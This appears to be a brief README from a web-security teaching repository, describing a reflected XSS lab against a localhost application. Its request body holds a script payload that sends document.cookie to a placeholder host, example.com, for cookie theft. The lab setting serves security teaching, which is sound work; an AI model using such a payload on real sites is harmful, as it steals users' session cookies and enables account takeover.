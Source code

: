 # SecuringWebApplications
## 1. reflectedXssAttack1
a. Post a comment to the the url 

      URL:'http://localhost:8080/reflectedXssAttack1/Comment'

      Method : POST

      Request Body

          comment : <script>window.location='http://example.com/?cookie='+document.cookie</script>


b. Get the comment from the url
http://localhost:8080/reflectedXssAttack1/Comment
